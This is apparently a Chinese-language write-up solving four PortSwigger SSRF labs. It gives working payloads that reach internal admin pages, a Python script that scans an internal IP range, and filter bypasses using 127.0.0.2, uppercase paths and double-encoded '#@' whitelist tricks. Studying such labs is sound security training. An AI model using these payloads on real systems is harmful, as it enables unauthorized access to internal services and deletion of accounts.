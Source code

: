 # Server-side request forgery (SSRF)

## [Lab: Basic SSRF against the local server](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos. 
### 題目解釋
任意發 HTTP GET Request
### 解答

觀察 Stock check 的 API 發現他會去戳
```
http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

改送 
```
http%3a%2f%2flocalhost%2fadmin
```

發現就能看到 admin 介面


再送
```
http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```



## [Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

### 題目解釋
SSRF 掃 IP

### 解答

```python
import requests

cookies = {
    'session': 'bakLqRkoOwdV224pxVilyjKiDSlR2Md5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0 Waterfox/91.6.0',
    'Accept': '*/*',
    'Accept-Language': 'zh-TW,zh-HK;q=0.8,zh-CN;q=0.7,zh-SG;q=0.5,en-US;q=0.3,en;q=0.2',
    'Referer': 'https://acc01f151fe80e6ec05765910024002e.web-security-academy.net/product?productId=1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://acc01f151fe80e6ec05765910024002e.web-security-academy.net',
    'Connection': 'keep-alive',
    'Sec-Fetch-Dest': 'empty',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Site': 'same-origin',
    'TE': 'trailers',
}

for i in range(1,256):
    data = {
    'stockApi': f'http://192.168.0.{i}:8080/admin'
    }

    response = requests.post('https://acc01f151fe80e6ec05765910024002e.web-security-academy.net/product/stock', headers=headers, cookies=cookies, data=data)
    if response.status_code == 200:
        print("!!!!!!!", i, "Success")
        break
    else:
        print(i, "Fail")
# print(response.status_code)
```

刷到 214 才找到 QQ

```
http://192.168.0.214:8080/admin
```


```
http%3A%2F%2F192.168.0.214%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```


## [Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

### 題目解釋
繞 localhost， path 可能可以用大小寫來繞

### 解答

直接戳 `http://localhost/` 會噴 

```
"External stock check blocked for security reasons"
```

發現用 `http://127.0.0.2` 就可以ㄌ，但是後面打 `admin` 還是會噴

改用 `http://127.0.0.2/ADMIN` 就可以ㄌ

```
http://127.0.0.2/ADMIN/delete?username=carlos
```

## [Lab: SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
### 題目敘述
 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed an anti-SSRF defense you will need to bypass. 
### 題目解釋

### 解答

如果我下 `http://localhost` 他會噴

```
"External stock check host must be stock.weliketoshop.net"
```

可以試著用這樣的想法

```
http://localhost:80#@stock.weliketoshop.net/
```

不過 `#` 需要 Double URL Encode，也就是改寫成 %2523

```
http://localhost:80#@stock.weliketoshop.net/
```

接下來是路徑方面的問題，測試了很久才發現可以加在最後面，加在前面卻不行，但我也不知道為什麼 QQ

```
http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username%3dcarlos
```

